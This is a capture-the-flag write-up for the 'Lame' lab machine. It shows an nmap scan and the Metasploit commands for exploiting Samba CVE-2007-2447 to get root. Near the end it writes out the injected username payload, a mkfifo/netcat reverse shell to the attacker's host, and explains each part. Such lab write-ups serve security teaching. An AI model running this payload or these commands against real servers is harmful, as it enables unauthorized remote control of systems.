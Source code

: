 # Lame

In this blog, we explore the process of identifying and exploiting vulnerabilities in Samba using the CVE-2007-2447 exploit. By leveraging Metasploit, we demonstrate how to gain unauthorized access to a server through the manipulation of shell metacharacters. This post provides a detailed, step-by-step guide on executing the exploit and capturing the root flag.

Perform an `nmap` scan using the `-sV` switch. We see we get a response with multiple services up and running on the target server.

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

If we do some basic research, we identify some vulnerabilities relating to the Samba version running on the server.

Samba is a suite of programs that implements the Server Message Block (SMB) protocol, which includes NetBIOS over TCP/IP (NBT). SMB is a network file sharing protocol that allows computers and servers to communicate with other systems using network ports. NetBIOS is an older transport layer that allows Windows computers to communicate with each other on the same network.

For the machine, we are going to utilize CVE-2007-2447, which as defined by CVE, "allows remote attackers to execute arbitrary commands via shell metacharacters involving the (1) SamrChangePassword function when the 'username map script' smb.conf option is enabled, and allows remote authenticated users to execute commands via shell metacharacters involving other MS-RPC functions in the (2) remote printer and (3) file share management."

Luckily, we see Metasploit already has a script to exploit this vulnerability.

Type the following commands to properly execute the Metasploit payload:

`search cve-2007-2447`

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption><p>Find Metasploit script</p></figcaption></figure>

`use exploit/multi/samba/usermap_script`

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption><p>Use script</p></figcaption></figure>

`set rhost "Enter applicable ip address"`

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption><p>Set your host IP properly</p></figcaption></figure>

`run`

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption><p>Run script</p></figcaption></figure>

We now have successfully established a connection with the remote Samba server.

You will find the user flag in the /home/makis directory. Type `Shell` to spawn a new shell in your CMD and locate the root flag by typing `cd /root`.

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

Here is the Metasploit script that actually performs the exploit.

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Example Execution Flow:

* **Username Injection:**
  * When Samba processes the `username field /=nohup mkfifo /tmp/hago; nc lhost lport 0</tmp/hago | /bin/sh >/tmp/hago 2>&1; rm /tmp/hago``:`
* **Command Execution:**
  * The shell interprets the backticks and executes the command inside them.
  * `mkfifo /tmp/hago` is executed, creating a named pipe.
  * `nc lhost lport 0</tmp/hago | /bin/sh >/tmp/hago 2>&1` is executed, establishing a reverse shell connection to the attacker's machine.
  * `rm /tmp/hago` is executed, cleaning up the named pipe.
  * The backticks `` ` ` `` around `nohup " + payload + "` ensure that this string is treated as a command and executed by the shell.
  * `nohup` ensures that the command runs to completion without being interrupted by hangup signals.
  * By carefully crafting the payload and using shell metacharacters, the attacker can execute arbitrary commands on the vulnerable server, leading to a reverse shell and potentially complete control over the target system.
